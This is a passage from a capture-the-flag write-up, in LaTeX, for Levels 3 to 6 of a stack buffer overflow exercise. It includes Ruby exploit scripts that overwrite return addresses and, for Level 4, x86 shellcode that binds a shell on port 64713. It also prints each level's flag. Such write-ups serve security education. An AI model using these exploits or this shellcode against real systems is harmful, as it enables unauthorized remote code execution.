\centerline{
\includegraphics[width=1\textwidth]{img/3/1.png}}
\end{figure}

Connect to binary using \texttt{netcat} and push the pattern string as input

\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/3/2.png}}
\end{figure}

\newpage
Run gdb, attach to process and hit c and press enter

Now the program will crash and when we take a look at \texttt{EIP}, We can see a chunk of our input text.

\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/3/3.png}}
\end{figure}

Now get the offset value from metasploit by using \texttt{pattern\_offset.rb} 

\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/3/4.png}}
\end{figure}
\newpage
Now, lets craft a ruby program to create the payload string with our return address at position 48.

\begin{verbatim}
#!/usr/bin/env ruby
SomeJunk = "A"*48
Ret_address = "\x41\x38\x30\x30" #0x30303841
Payload = SomeJunk + Ret_address
print Payload
$stdout.flush
\end{verbatim}
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/3/5.png}}
\end{figure}


Cool. Now, do the same thing by connecting to VM instead and get the flag:
\newline
\texttt{FLAG: \{\{04ded545cd7244d7916fdf49c20fc13df69b2def\}\}}

\newpage
\ssection{\textbf{Level 4}}

For this level, we use the same approach as the previous one. But, since we don't have \texttt{drop\_to\_shell()} function to help us out, we have to write our own shellcode to drop to shell.

Using the same method as Level 3, we find the offset for this program as well. and also find the offset for ESP when the program crashes. this gives the offset for top of stack so that we can place our shellcode on stack. 

\par Once we get the offset for return address and \texttt{ESP}, We have to find the address to either \texttt{JMP ESP} or \texttt{CALL ESP} in loaded shared library \texttt{LIBC}. This can be easily done by using \texttt{jmpcall esp libc} command in \texttt{gdb-peda}. Pick one of the address and start writing our exploit. 

For simplicity, I'm using Ruby to write exploit.
\begin{verbatim}
#!/usr/bin/env ruby
SomeJunk = "\x41" * 24 #Offset 48
Nops = "\x90"
Jmp_call_address = "\xd7\xa8\xf9\xf7" #0xf7f9a8d7 -- LIBC: Call ESP on VM
EIP = "0xbfc0cf40"
 
#shell 64713 port
Shellcode = "\x6a\x66\x58\x6a\x01\x5b\x99\x52\x53\x6a\x02\x89\xe1\xcd\x80"\
"\x52\x66\x68\xfc\xc9\x66\x6a\x02\x89\xe1\x6a\x10\x51\x50\x89\xe1\x89\xc6\x43"\
"\xb0\x66\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x52\x56\x89\xe1\x43\xb0\x66\xcd"\
"\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x6a\x0b\x58\x52\x68\x2f\x2f"\
"\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"
BreakPoint = "\xCC\xCC\xCC\xCC"
FinalPayload = SomeJunk + EIP + Nops*14 + Jmp_call_address
FinalPayload = FinalPayload + Shellcode + Nops*90 + BreakPoint*2
print FinalPayload
$stdout.flush
\end{verbatim}

Shellcode was borrowed from: \underline{\url{http://shell-storm.org/shellcode/files/shellcode-252.php}}

This binds a reverse shell on port 64713 and then we can connect to that port using \texttt{netcat}. For this exploit to work, make sure that \texttt{ASLR} is disabled and for the value of \texttt{Jmp\_call\_address} in the above script, we have to do a little bit of bruteforcing. If we can use one of the previous level exploits to get to shell and use the method described here: 
\underline{\url{http://seclists.org/dailydave/2004/q1/39}}
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/4/1.png}}
\end{figure}

\texttt{FLAG: \{\{what ever happened to fred durst?\}\}}

\newpage
\ssection{\textbf{Level 5}}

Level 5 is similar to Level 3. When we disassemble, we can see that we have been provided with \texttt{drop\_to\_shell()}, we can use the similar approach as Level 3.

\par Exploit: 

\begin{verbatim}
#!/usr/bin/env ruby
SomeJunk = "A"*48
Address = "\x4c\x38\x30\x30" #0x3030384c
Nops = "\x90"
FinalPayload = SomeJunk + Address + Nops*50 + "\n"
print FinalPayload
$stdout.flush
\end{verbatim}
\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/5/1.png}}
\end{figure}

\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/5/2.png}}
\end{figure}

\newpage
\ssection{\textbf{Level 6}}

This can be solved either using format strings vulnerability or just dropping 200 'A's in the username field.

Let's drop some 'A's.


\begin{figure}[H]
\centerline{
\includegraphics[width=1\textwidth]{img/6/1.png}}
\end{figure}

\texttt{FLAG: \{\{coming up with flags is harder than coming up with the vulnerable programs\}\}}






\newpage
\thispagestyle{empty}
\phantom{a}
\vfill
\centering{\emph{Well, that was fun!!!}}
\vfill





\end{document}